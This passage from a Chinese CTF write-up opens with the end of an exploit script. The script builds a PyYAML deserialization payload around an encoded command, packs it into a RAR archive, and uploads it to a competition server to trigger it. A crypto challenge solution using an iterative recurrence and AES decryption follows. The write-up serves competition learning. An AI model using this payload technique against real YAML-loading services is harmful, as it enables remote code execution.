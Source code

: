 ``` python
    - !!python/name:base64.b64decode
    - ["{command_encode}"]'''

def main():
    dummy_filename = 'monad'
    dummy_filename_md5 = hashlib.md5(dummy_filename.encode()).hexdigest()
    rar = f'.1.rar'
    create_rar(rar, { f'{dummy_filename_md5}.yaml': create_yaml_payload() })

    session = create_session('engine-1')
    url = 'http://eci-2ze2kqsxzki5jel0ux1b.cloudeci1.ichunqiu.com:8888'
    r = requests.post(url + '/upload', cookies={'session': session}, files={'file': open(rar, 'rb')})
    r = requests.get(url + '/display', cookies={'session': session}, params={'file': dummy_filename})

if __name__ == '__main__':
    main()
```

# Crypto (AK)
## crypto162 （二血）

首先，嗯，我们先来看看代码：

``` python
def cal(i, cof):
    if i < 3:
        return i + 1
    else:
        return cof[2] * cal(i-3, cof) + cof[1] * cal(i-2, cof) + cof[0] * cal(i-1, cof)
```

然后一看，垃圾递归，顺手把他改成迭代的：


``` python
MOD = 10 ** 2010
buffer = [1, 2, 3] + [ 0 for _ in range(200000 + 1) ]

s = 0
for cof in cof_t:
    for j in range(3, 200000+1):
        buffer[j] = (cof[2] * buffer[j-3] + cof[1] * buffer[j-2] + cof[0] * buffer[j - 1]) % MOD
    s = (s + buffer[200000]) % MOD
```

然后又因为后面有 `s=str(s)[-2000:-1000]`，所以顺便模一下 $2^{2000}$ 次方，不会对答案产生影响。

然后本来还想着要不要继续优化的，但是刚想出来怎么优化，上面的那段代码就跑出来了。

然后拿着输出的 `s` 验算一下，是可以对上 `verify` 的。然后……然后就用 AES 解密就解出来啦？
